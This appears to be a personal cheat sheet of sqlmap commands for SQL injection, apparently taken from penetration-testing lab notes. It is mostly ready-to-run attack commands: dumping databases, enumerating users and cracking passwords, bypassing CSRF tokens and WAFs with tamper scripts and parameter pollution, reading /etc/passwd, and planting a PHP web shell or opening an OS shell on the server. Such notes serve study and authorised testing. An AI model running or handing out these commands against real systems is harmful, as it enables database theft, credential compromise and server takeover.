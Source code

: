 #sql
[[SQLi]]
[[ghauri]]
#####  Copy request as curl and paste to terminal
```shell
sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'
```

replace curl with sqlmap or save request to file: 
```shell
sqlmap -r req.txt
```

##### Show current DB
`--current-db`
##### Scan using parameters in cookies:
```bash
sqlmap -u 'http://94.237.50.99:43765/case3.php'  -H 'Cookie: id=*' --dump --batch
```

#### Tuning
```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

prefix and suffix for the query below

```php
$query = "SELECT id,name,surname FROM users WHERE id LIKE (('" . $_GET["q"] . "')) LIMIT 0,1";
$result = mysqli_query($link, $query);
```

```
--batch --dump show response of queries

-T flag5 - specify table

--level 1 (1-5)

--risk 1 (1-3)

--code 200 match http code

--titles <title> match page title

--string=success match response string

--text-only strip all tags, keep only text of response

--technique=BEU - SQLi types (boolean, union, etc.)

specify number of colons for union based technique:

--union-cols=5
```

#### Enumeration
* `--dbs`
* `--banner`
* `--current-user`
* `--is-dba`
* `--tables`
* `-D dbname`
* `-C col1, col`
* `--where="name LIKE 'f%'"`
* `--dump-all --exclude-sysdbs` - enumerate all DBs
* `--schema`
* `--search -T table -C col1` -- search for table which contains word table
* `--passwords` - try to crack passwords
* `-T table_name --dump`

##### CSRF bypass
```shell
sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```

##### Random value
```shell
sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI
```

##### Parameters processing
```shell
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI
```

##### Proxy
`proxy="socks4://177.39.187.70:33283`
`--check-tor`
##### WAF
[[WAF]]
Whenever we run SQLMap, As part of the initial tests, SQLMap sends a predefined malicious looking payload using a non-existent parameter name (e.g. `?pfov=...`) to test for the existence of a WAF (Web Application Firewall). There will be a substantial change in the response compared to the original in case of any protection between the user and the target. For example, if one of the most popular WAF solutions (ModSecurity) is implemented, there should be a `406 - Not Acceptable` response after such a request.
Detect WAF by signature: https://github.com/stamparm/identYwaf

##### Useragent
```shell
--random-agent
```

##### Tamper Scripts
Modyfing queries to bypass WAF.

`--tamper=between,randomcase`
`--list-tampers`

##### [[HTTP PP]]
```
id=1&id=UNION&id=SELECT&id=username,password&id=FROM&id=users...
```

##### Files
```shell
--file-read "/etc/passwd"
```

```shell
--file-write "shell.php" --file-dest "/var/www/html/shell.php"
```

#### Upload shell
```shell
--os-shell
```

